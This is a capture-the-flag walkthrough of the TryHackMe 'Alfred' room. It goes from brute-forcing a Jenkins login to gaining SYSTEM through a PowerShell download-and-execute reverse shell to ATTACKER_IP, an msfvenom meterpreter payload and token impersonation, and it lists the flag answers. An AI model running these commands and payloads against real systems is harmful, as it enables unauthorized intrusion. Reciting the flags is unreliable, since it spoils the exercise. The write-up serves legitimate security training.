





## Index

1. [Setup](#setup)
2. [Reconnaissance](#reconnaissance)
3. [Gain Access](#gain-access)
4. [Privilege Escalation](#privilege-escalation)
5. [Conclusion](#conclusion)

## Setup 

We first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using openvpn to connect to the server. Here's the command:

```
$ sudo openvpn --config NovusEdge.ovpn
```

## Reconnaissance

Performing a quick `nmap` scan gives us some useful details:
```shell-session
$ sudo nmap -sS -vv -Pn --top-ports 2000 -oN nmap_scan.txt TARGET_IP

PORT     STATE SERVICE       REASON
80/tcp   open  http          syn-ack ttl 127
3389/tcp open  ms-wbt-server syn-ack ttl 127
8080/tcp open  http-proxy    syn-ack ttl 127
```

> How many ports are open? (TCP only)
>
> Answer: 3

OS Fingerprinting for finding a proper attack vector:
```shell-session
$ sudo nmap -O -Pn -vv TARGET_IP
...
...
Aggressive OS guesses: Microsoft Windows Server 2008 R2 SP1 (90%), Microsoft Windows Server 2008 (90%), Microsoft Windows Server 2008 R2 (90%), Microsoft Windows Server 2008 R2 or Windows 8 (90%), Microsoft Windows 7 SP1 (90%), Microsoft Windows 8.1 Update 1 (90%), Microsoft Windows 8.1 R1 (90%), Microsoft Windows Phone 7.5 or 8.0 (90%), Microsoft Windows 7 or Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 or 2008 Beta 3 (89%)
```

We can be confident that the server is running some kind of windows OS. There's a http server running on port 80 and a proxy running on port 8080. Visiting the port 80 site, we see:


Visiting the page on port 8080, we're greeted with the following:


The web page is a login portal, we can use `hydra` or the burpsuite intruder to bruteforce this and get credentials.

I'll be using burpsuite to launch a sniper attack to get credentials...




We can try to log into the portal using the credentials thus obtained. 

> What is the username and password for the log in panel(in the format username:password)
>
> Answer: `admin:admin`


## Gaining Access

Once logged into the portal we see a dashboard that allows the user to do all sorts of things.


The `New Item` tool on the dashboard can then be used to upload a payload that will be executed in order to provide a reverse shell access. To do this, we'll first need a reverse TCP shell that uses powershell. As the room instructs in it's first task, we're to use `nishang` for this powershell script. 

```shell-session
$ wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
```

Once we have the shell, we can use the `NewItem` tool to upload the file and make the server execute the following commnad:
```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://ATTACKER_IP:PORT/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress ATTACKER_IP -Port PORT
```



Once the project is created, we're redirected to the configuration section where we can specify to the workflow to execute the command mentioned before:



Before proceeding, we'll need to start a http server on our machine so that the remote server can connect and get the powershell script. 
***NOTE***: The script file must be in the current working directory for this to work.

```shell-session
$ python3 -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
```

We will also need to start a listener for the reverse shell:
```shell-session
$ nc -nvlp 4445
```

Now that all this is done, we can finally execute the workflow by clicking on the `Build Now` option shown on the left of the project menu. Doing this will give us a shell to work with:
```shell-session
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files (x86)\Jenkins\workspace\alfred> cd C:\Users\bruce\Desktop
PS C:\Users\bruce\Desktop> type user.txt
79007a09481963edf2e1321abd9ae2a0
```

We've successfully obtained the user flag, now we can move onto escalating our privileges. 

> What is the user.txt flag? 
>
> Answer: `79007a09481963edf2e1321abd9ae2a0`

## Privilege Escalation

To make it easier for us to handle, we'll use a meterpreter shell for the escalation section. First, we'll need to generate a payload for a reverse shell:
```shell-session
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=ATTACKER_IP LPORT=PORT -f exe -o shell.exe
```
We'll need a listener on our machine:
```shell-session
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST ATTACKER_IP
LHOST => ATTACKER_IP
msf6 exploit(multi/handler) > set LPORT PORT
LPORT => PORT

msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on ATTACKER_IP:PORT
```


Uploading it to the machine by adding a build step on the configuration of the project:
```powershell
powershell iex "(New-Object System.Net.WebClient).Downloadfile('http://ATTACKER_IP:PORT/shell.exe','shell.exe')"
```

Building the project will grant us the former shell, where we can execute the following command:
```powershell
PS C:\Program Files (x86)\Jenkins\workspace\alfred> Start-Process shell.exe
```

This will spawn the meterpreter shell.


> What is the final size of the exe payload that you generated?
>
> Answer: `73802`

Now that we have a nice meterpreter shell, we can try and see what privileges we have:
```shell-session
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell
PS > whoami /priv 

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State
=============================== ========================================= ========
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Disabled
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Disabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Disabled
SeCreatePagefilePrivilege       Create a pagefile                         Disabled
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Disabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege         Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege   Increase a process working set            Disabled
SeTimeZonePrivilege             Change the time zone                      Disabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Disabled
```

As the user `alfred`, we have the `SeDebugPrivilege`, `SeImpersonatePrivilege` and `SeCreateGlobalPrivilege` privileges enabled. Loading the `incognito` module, we can then use it to list tokens:

```shell-session
PS > ^C
Terminate channel 1? [y/N]  y                                                             
meterpreter > load incognito                                                              
Loading extension incognito...Success.                                                    
meterpreter > list_tokens -g                                                              
[-] Warning: Not currently running as SYSTEM, not all tokens will be available            
             Call rev2self if primary process token is SYSTEM                             
                                                                                          
Delegation Tokens Available                                                               
========================================                                                  
\                                                                                         
BUILTIN\Administrators                                                                    
BUILTIN\IIS_IUSRS                                                                         
BUILTIN\Users                                                                             
NT AUTHORITY\Authenticated Users                                                          
NT AUTHORITY\NTLM Authentication                                                          
NT AUTHORITY\SERVICE                                                                      
NT AUTHORITY\This Organization                                                            
NT AUTHORITY\WRITE RESTRICTED
NT SERVICE\AppHostSvc
NT SERVICE\AudioEndpointBuilder
NT SERVICE\BFE
NT SERVICE\CertPropSvc
NT SERVICE\CscService
NT SERVICE\Dnscache
NT SERVICE\eventlog
NT SERVICE\EventSystem
NT SERVICE\FDResPub
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\MMCSS
NT SERVICE\PcaSvc
NT SERVICE\PlugPlay
NT SERVICE\RpcEptMapper
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\Spooler
NT SERVICE\swprv
NT SERVICE\TrkWks
NT SERVICE\TrustedInstaller
NT SERVICE\UmRdpService
NT SERVICE\UxSms
NT SERVICE\VSS
NT SERVICE\WdiSystemHost
NT SERVICE\Winmgmt
NT SERVICE\WSearch
NT SERVICE\wuauserv

Impersonation Tokens Available
========================================
NT AUTHORITY\NETWORK
NT SERVICE\AudioSrv
NT SERVICE\DcomLaunch
NT SERVICE\Dhcp
NT SERVICE\DPS
NT SERVICE\lmhosts
NT SERVICE\MpsSvc
NT SERVICE\netprofm
NT SERVICE\nsi
NT SERVICE\PolicyAgent
NT SERVICE\Power
NT SERVICE\ShellHWDetection
NT SERVICE\W32Time
NT SERVICE\WdiServiceHost
NT SERVICE\WinHttpAutoProxySvc
NT SERVICE\wscsvc
```

Since the `BUILTIN\Administrators` token is available, we can use the following command to impersonate the admin token:
```shell-session
meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
```

Running the `getuid` command, we can confirm that we have admin privileges:
```shell-session
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

> What is the output when you run the getuid command?
>
> Answer: `NT AUTHORITY\SYSTEM`

As the task advises us to do, we'll now migrate this process:
```shell-session
meterpreter > ps
...

668   580   services.exe   x64   0        NT AUTHORITY\SYSTEM    C:\Windows\System32\se
                                                                  rvices.exe
...

meterpreter > migrate 668
[*] Migrating from 2176 to 668...
[*] Migration completed successfully.
meterpreter > cat "C:\Windows\System32\config\root.txt" 
��dff0f748678f280250f25a45b8046b4a
```

> read the root.txt file at `C:\Windows\System32\config`
>
> Answer: `dff0f748678f280250f25a45b8046b4a`

## Conclusion

If this writeup helps, please consider following me on github (https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

---

- Author: Aliasgar Khimani
- Room: [Alfred](https://tryhackme.com/room/alfred)

